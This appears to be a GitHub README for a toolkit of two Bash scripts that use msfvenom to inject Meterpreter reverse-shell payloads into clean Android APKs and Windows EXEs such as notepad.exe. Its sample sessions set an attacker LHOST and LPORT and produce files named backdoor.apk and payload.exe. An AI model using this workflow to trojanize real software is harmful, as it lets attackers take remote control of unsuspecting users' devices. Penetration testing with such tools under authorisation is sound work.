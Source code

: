 # InjKit


Payload Injector Toolkit (APK & EXE)

This toolkit provides two simple yet effective Bash scripts that allow you to inject meterpreter reverse shell payloads into clean APK or EXE files using msfvenom.


---

📁 Included Scripts

1. apk_injector.sh — Android APK Injector

Injects a reverse shell payload into a clean APK file using Metasploit’s msfvenom.

🔧 Features:

Simple interactive interface

Verifies APK file path before processing

Uses msfvenom to inject payload

Outputs a new APK file with embedded payload


🚀 Example Usage:

chmod +x apk_injector.sh
./apk_injector.sh

🖥️ Sample Terminal Interaction:

===============================
        APK Payload Injector   
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 4444
Enter the path to a clean APK file: /root/app.apk
Enter the output file name (e.g., evil.apk): backdoor.apk
[*] Injecting payload into /root/app.apk...
[+] Payload injected successfully! Saved as: backdoor.apk


---

2. exe_injector.sh — Windows EXE Injector

Injects a Windows reverse shell payload into an existing .exe binary.

🔧 Features:

Interactive prompts for easy setup

Validates input EXE file path

Supports any EXE (e.g., notepad.exe) as a base

Uses msfvenom for injection

Generates new malicious EXE


🚀 Example Usage:

chmod +x exe_injector.sh
./exe_injector.sh

🖥️ Sample Terminal Interaction:

===============================
      EXE Payload Injector     
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 5555
Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe
Enter the output file name (e.g., evil.exe): payload.exe
[*] Injecting payload into /root/notepad.exe...
[+] Payload injected successfully! Saved as: payload.exe


---

⚠️ Notes

These tools rely on msfvenom, part of the Metasploit Framework.

Make sure msfvenom is installed and accessible in your PATH.

Use within ethical boundaries and only in environments you are authorized to test.



---

💬 Feedback

Feel free to submit issues, improvements, or suggestions.
Made with ❤️ for educational and penetration testing use.

---
